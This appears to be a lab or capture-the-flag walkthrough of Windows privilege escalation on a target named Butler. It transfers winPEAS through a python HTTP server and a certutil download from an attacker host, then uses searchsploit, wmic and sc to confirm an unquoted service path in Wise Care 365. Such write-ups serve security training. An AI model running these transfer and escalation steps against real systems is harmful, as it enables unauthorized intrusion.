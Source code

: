 ## Privilege Escalation Enumeration [winPEAS]

### WinPEAS

On the local system:
- Download winPEASx64.exe and move to transfers folder
- cd into the transfers folder
- Start a http server `python3 -m http.server 80`

On the target system:
- Find a folder with write access e.g. Desktop
- `cd C:\Users\Butler\Desktop`
- Download winPEAS `certutil.exe -urlcache -f http://10.0.2.9/winPEASx64.exe winpeas.exe`

### Manual

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit wise care
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Wise Care 365 4.27 / Wise Disk Cleaner 9.29 - Unquoted Service Path Privilege Escal | windows/local/40417.txt
Wise Care 365 5.6.7.568 - 'WiseBootAssistant' Unquoted Service Path                 | windows/local/50038.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> Perfect there is an exploit in that version of WiseCare

Let look at the exploit `nano /usr/share/exploitdb/exploits/windows/local/50038.txt`  


Follow instructions:
1. To find the unquoted service path vulnerability: `wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname`

```console  
C:\>wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname

DisplayName          PathName                                                StartMode  StartName
Wise Boot Assistant  C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe  Auto       LocalSystem
```

2. To check service info: `sc qc "WiseBootAssistant"`

```console
C:\Users\Administrator>sc qc "WiseBootAssistant"
sc qc "WiseBootAssistant"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WiseBootAssistant
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Wise Boot Assistant
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
